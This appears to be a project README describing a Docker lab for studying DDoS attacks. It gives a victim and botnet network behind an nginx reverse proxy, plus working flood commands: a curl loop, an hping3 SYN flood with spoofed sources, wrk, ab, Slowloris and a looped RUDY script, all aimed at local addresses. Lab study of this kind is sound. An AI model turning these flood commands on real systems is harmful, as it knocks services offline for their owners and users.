 # Exploring DDoS attacks

## Reverse-proxy (reverse-proxy)

In order to create a more realistic environment, we create two subnetworks, one for the victim (victim-network) and one for the botnet (chn-network). To redirect network from one network to the other, we configure another container that plays the role of a reverse-proxy (passthrough) that gets the traffic to the victim service.

Create network `docker network create victim-network` before docker compose on the reverse-proxy.

## Types of Services

### Nginx with Limited Resources Serving a Static Webpage (static)
- Simple nginx configuration with reduced buffer sizes and a limited number of worker processes to simulate a constrained server environment.

### Flask App with Gunicorn (dynamic)
- Basic Flask app for serving dynamic content, deployed with Gunicorn and configured to use a restricted number of workers (e.g., 1 to 4).

### Baseline Flask App (baseline)
- Basic Flask app serving dynamic content without Gunicorn or reverse proxy integration, representing an unoptimized setup.

## Tools to Perform a DDoS/Stress Test

These are some general tools to perform DDoS, it was an initial exploration, even though we cannot use that in the case of our Cowrie
botnet.

## Simple curl script
**Description:** Just a dummy script to imitate a DDoS.
```sh
for i in {1..100}; do
    (
        while true; do
            curl -s http://0.0.0.0:5000/ > /dev/null
        done
    ) &
done
```

### hping3
**Description:** A command-line oriented TCP/IP packet assembler and analyzer, useful for simulating various types of attacks by crafting and flooding packets.

**Example:**
Install using your package manager:
```sh
sudo apt install hping3
```

Command to simulate a SYN flood:
```sh
sudo hping3 -S -d 10000 172.19.0.2 -k --rand-source --flood -p 5000
```
- `-S`: Sends SYN packets.
- `-d 10000`: Packet size (10,000 bytes).
- `172.19.0.2`: Target IP address.
- `-k`: Keeps the connection alive.
- `--rand-source`: Randomizes the source IP address (simulates a distributed attack).
- `--flood`: Sends packets as quickly as possible.
- `-p 5000`: Target port.

### wrk
**Description:** A modern HTTP benchmarking tool capable of generating high loads. Useful for testing endpoint response times under stress.

**Example:**
Install using your package manager:
```sh
sudo apt install wrk
```

Command to simulate traffic:
```sh
wrk -t40 -c500 -d300s http://localhost:5000
```
- `-t40`: Number of threads.
- `-c500`: Number of concurrent connections.
- `-d300s`: Duration of the test (300 seconds).
- `http://localhost:5000`: Target endpoint.

### Apache Benchmark (ab)
**Description:** A simple tool for benchmarking HTTP requests, particularly useful for testing server concurrency and handling capacity.

**Example:**
Install using your package manager:
```sh
sudo apt install apache2-utils
```

Command for benchmarking:
```sh
ab -l -n 1000000 -c 1000 -k http://0.0.0.0:5000/
```
- `-l`: Do not exit on socket errors.
- `-n 1000000`: Total number of requests to perform.
- `-c 1000`: Number of concurrent requests.
- `-k`: Enable HTTP Keep-Alive.
- `http://0.0.0.0:5000/`: Target URL.

### Slowloris
**Description:** A tool for performing layer 7 (application layer) attacks by opening many simultaneous connections and keeping them alive, effectively exhausting the target server’s resources.

**Usage:**
Install using Python pip:
```sh
pip install slowloris
# or
git clone https://github.com/gkbrk/slowloris
```

Command for launching the attack:
```sh
slowloris 172.19.0.2 -p 5000 -s 500
# or
python3 slowloris.py localhost -p 5002 -s 100 -v
```
- `172.19.0.2`: Target IP address.
- `-p 5000`: Target port.
- `-s 500`: Number of simultaneous connections.
- `-v`: Verbose output to see the logs.

### RUDY

This attacks are performed by opening fewr connections for a longer period and keeping them open as long as possible (depending on the resources of the attacker's machine). It opens concurrent POST HTTP connections and send payloads of varying sizes. It can be customised to send specific files as payloads, but by default is send a random payload of 1MB size.

**Usage:**
```sh
git clone https://github.com/darkweak/rudy
cd rudy
go run rudy.go [command]
```

I experiment a bit with different values for the options of the attack command, which slowed down the dynamic server. Instead of depending on one standalone command, I run a script that does 50 times the attack with sleeping 5 sec between each. 

```sh
#!/bin/bash
# Loop to run the attack 50 times with a 5-second pause between each
for i in {1..50}
do
   go run rudy.go run -u http://localhost:8081 -c 1000 -i 100s -p 1GB
   sleep 5
done
```

This port was used for me for our static victim which died. 

I got these logs from the container 
![rudy_ddos](rudy_ddos.png)

which proves that the nginx cannot handle the concurrent requests. 

Improtant is that I could not run the commands for loads of concurrent requests with a large payload (e.g, 5GB) withouth my host running out of memory.

## NGINX Config 

Configuring proxy to forward to the two victims 
also added aliasing for the names dynamic-victim and static-victim on the docker-compose.yaml on both static and dynamic. Also added some logs to see what is going on when the attack is made. 

For the reverse proxy to recognise the names of the victims we need to add the aliases on the docker compose files of each of the victims. 

For example, networks field for the dynamic victim should look like:

```sh
networks:
      victim-network:
	aliases:
	  - dynamic-victim
```

```sh
events {
    worker_connections 1024; 
}

http {
    server {
        listen 80;

        # Forward to the dynamic victim
        location /dynamic {
            proxy_pass http://dynamic-victim:5000/;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
            proxy_buffering off;
            # Logs
            access_log /var/log/nginx/dynamic_access.log;
            error_log /var/log/nginx/dynamic_error.log debug;
        }

        # Forward to the static victim
        location /static {
            proxy_pass http://static-victim:80/;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
            proxy_buffering off;
            # Logs
            access_log /var/log/nginx/static_access.log;
            error_log /var/log/nginx/static_error.log debug;
        }
    }
}
```
